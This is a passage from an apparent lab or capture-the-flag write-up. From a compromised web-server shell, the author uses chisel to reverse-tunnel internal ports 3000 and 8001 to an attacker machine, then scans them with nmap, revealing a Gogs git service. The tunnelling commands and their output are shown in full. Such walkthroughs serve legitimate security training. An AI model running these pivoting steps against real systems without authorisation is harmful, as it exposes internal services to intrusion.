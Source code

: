 3000,8001, and 33060. `33060` is a port for mysql, so what are port 3000, and 8001? Trying to use `nc` to connect to the ports on our target machine get's us no useful information.

### Chisel

We can use chisel to tunnel the ports to our attack machine and scan the services more effectively.

**Chisel Client**

Set up the client to forward the local ports to matching ports on our target machine

```
www-data@only4you:/tmp/tmp8921$ ./chisel client 10.10.14.231:9001 R:3000:localhost:3000 R:8001:localhost:8001
```

**Chisel Server**

Starting the server and seeing the connections come in

```sh
$~/go/bin/chisel server -p 9001 --reverse
2023/08/25 19:39:23 server: Reverse tunnelling enabled
2023/08/25 19:39:23 server: Fingerprint JLnfm3zRpGTGgmZEChgjFNii8Ny4SEhHc+7pOhQKPMg=
2023/08/25 19:39:23 server: Listening on http://0.0.0.0:9001
2023/08/25 19:40:51 server: session#1: tun: proxy#R:3000=>localhost:3000: Listening
2023/08/25 19:40:51 server: session#1: tun: proxy#R:8001=>localhost:8001: Listen
```

### Nmap pt.2

We can then use nmap to see if we can pull any extra information:\


```sh
toasty@parrot$ sudo nmap -p3000,8001 localhost -sC -sV

PORT     STATE SERVICE VERSION
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
|     Set-Cookie: i_like_gogs=ec129196d0908f79; Path=/; HttpOnly
|     Set-Cookie: _csrf=jX6CXUVr-S0sAj_BfNNj0tH1kSU6MTY5Mjk4ODg4NzEwMDIzNDM5Mw; Path=/; Domain=127.0.0.1; Expires=Sat, 26 Aug 2023 18:41:27 GMT; HttpOnly
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: DENY
|     Date: Fri, 25 Aug 2023 18:41:27 GMT
|     <!DOCTYPE html>
|     <html>
|     <head data-suburl="">
|     <meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />
|     <meta http-equiv="X-UA-Compatible" content="IE=edge"/>
|     <meta name="author" content="Gogs" />
|     <meta name="description" content="Gogs is a painless self-hosted Git service" />
|     <meta name="keywords" content="go, git, self-hosted, gogs">
|     <meta name="referrer" content="no-referrer" />
|     <meta name="_csrf" content="jX6CXUVr-S0sAj_BfNNj0tH1kSU6MTY5Mjk4ODg4NzEwMDIzN
|   HTTPOptions: 
|     HTTP/1.0 500 Internal Server Error
|     Content-Type: text/plain; charset=utf-8
|     Set-Cookie: lang=en-US; Path=/; Max-Age=2147483647
```
